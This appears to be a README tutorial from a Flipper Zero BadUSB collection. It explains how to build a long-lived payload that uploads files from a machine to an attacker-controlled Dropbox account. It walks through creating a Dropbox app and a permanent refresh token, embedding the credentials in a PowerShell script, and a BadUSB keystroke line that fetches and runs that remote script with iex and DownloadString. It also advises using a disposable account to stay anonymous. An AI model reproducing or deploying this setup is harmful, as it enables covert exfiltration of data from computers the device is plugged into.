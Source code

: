 # Dropbox Configuration for Uploading files with BadUSB 

This tutorial will explain how to create a BadUSB payload that is capable of uploading files to Dropbox by **automatically** generating temporary Access Tokens to be used on demand.

It uses the Dropbox OAuth 2 API to create a **permanent Refresh Token** that is capable of creating **temporary Access Tokens**. In the end, it will allow you to create long-living BadUSB payloads that do not require you to manually create and update the tokens in the script before executing it.

The `Dropbox-Upload-File` function was inspired by [ADV-Recon](https://github.com/I-Am-Jakoby/Flipper-Zero-BadUSB/tree/main/Payloads/Flip-ADV-Recon) script by [I-Am-Jakoby](https://github.com/I-Am-Jakoby).

**NOTE**: be aware that if your payloads/scripts are compromised, it might be possible to identify the original Dropbox account from the keys. So if you care about anonymity we recommend using an anonymous or disposable Dropbox account to operate everything.

## Motivation

Until mid 2021, Dropbox allowed to create an **"Access Token"** that never expired. With a token like that, you could simply hardcode it on your script and the Dropbox upload would work. Since then, the Access Token that you create in the Apps Settings pages will expire after 4 hours. This requires that you keep recreating Dropbox tokens every time you want to use a payload.

By using Dropbox's OAuth 2.0 API, this tutorial will demonstrate how to make an script that is capable of automatically generating Access Tokens on demand, so that once the script is written you don't have to keep updating the credentials.

## Tutorial

### 1 - Create a Dropbox Application

First we will create a personal Dropbox application that will have permissions onlly to _upload_ files to a _specific folder_.

The stricter permission settings is recommended, because it will limit the access in case of the keys/tokens/secrets are, somehow, compromised/leaked. For instance, if the key had access to _read_ and to _any_ folder of the account, one could download all the files in the Dropbox account that you will be using.

To create an application like that, do the following:
 1. Go to the [Dropbox New App Creation](https://www.dropbox.com/developers/apps/create/) page. Fill the information as following:
   - API: Scoped access
   - Access Type: App folder (
   - Name: <any> (it should be exclusive)
 2. Go to the [My apps](https://www.dropbox.com/developers/apps/) page and enter in your recently created application page.
 3. Go to the "Permissions" tab of your app.
 4. Mark these two permissions:
   - `files.metadata.write`
   - `files.content.write`
 5. Click on the "Submit" button to update the app's permissions.

### 2 - Setup the Key of the Dropbox Application

Now we will manually execute an OAuth 2.0 authentication flow to create some keys for us. 
We will create a virtually permanent "Refresh Token" which will allow our script to automatically generate temporary "Access Token" every time it executes the payload.

 1. Go to the [My apps](https://www.dropbox.com/developers/apps/) page and enter in your recently created application page.
 2. Go to the "Settings" tab of your app.
 3. Copy and write down your "App key" (`<APP_KEY>`) and "App secret" (`APP_SECRET`).
 4. Open a web browser and log into your Dropbox account (if it is not already).
 5. Create an URL with your "App key" and open it in your browser:
```
https://www.dropbox.com/oauth2/authorize?client_id=<APP_KEY>&token_access_type=offline&response_type=code
```
 6. Click on `Continue` to indicate that you are aware that you are connecting to a development application.
 7. Click on `Allow` to allow that the application have the mentioned permissions.
 8. Copy and write down the "Authorization code" (`<AUTHORIZATION_CODE>`) shown in the box.
 9. Make a HTTP request to retrieve a refresh token: 
```
curl https://api.dropbox.com/oauth2/token \
    -d code=<AUTHORIZATION_CODE> \
    -d grant_type=authorization_code \     
    -u <APP_KEY>:<APP_SECRET>
```
 10. Copy and write down write down the "Refresh token" (`<REFRESH_TOKEN>`) from the `"refresh_token"` key of the JSON response.

As long as your Dropbox account keeps your App in the allow list, the "Refresh token" will be valid. 

### 3 - Prepare the PowerShell script

The `.ps1` file is the PowerShell script that you want to run. It will create a local file, then upload it to Dropbox. To configure it do the following:

 1. Edit your `.ps1` file to specify the secrets you have copied and written from the previous step:
```
$MyAppKey       = "<APP_KEY>"
$MyAppSecret    = "<APP_SECRET>"
$MyRefreshToken = "<REFRESH_TOKEN>"
```
 2. Upload the `.ps1` file to Dropbox (it can be stored in any folder, not necessarily inside the app's folder).
 3. Locate the file on the Dropbox web interface, right click on it, and click on the "Copy link" option.
 4. Copy and write down the URL, replacing the `?dl=0` in the end to `?dl=1` if necessary. Let's call it `<SCRIPT_DOWNLOAD_URL>`. For example:
```
https://www.dropbox.com/s/xxxxxxxxxxxx/my-file.ps1?dl=1
```

Like previously mentioned, the "Refresh Token" will not expire, so you can keep your script unchanged, and every time it runs it will create and use a fresh and temporary "Access Token".

### 4 - Prepare the BadUSB payload

The `.txt` file is the BadUSB payload that will actually send the keystrokes. It will call the Windows run box and execute the remote PowerShell script. You have to specify the download URL of the PowerShell script inside the payload. Do the following:

 1. Edit your `.txt` file to put the download URL (`<SCRIPT_DOWNLOAD_URL>`):
```
ALTSTRING cmd /c powershell iex ((New-Object System.Net.WebClient).DownloadString('https://www.dropbox.com/s/xxxxxxxxxxxx/my-file.ps1?dl=1'))
```
 2. Put the `.txt` file inside the `badusb` folder of the Flipper's SD Card.

## Reference
 - https://www.dropbox.com/developers/documentation/http/documentation
 - https://developers.dropbox.com/oauth-guide

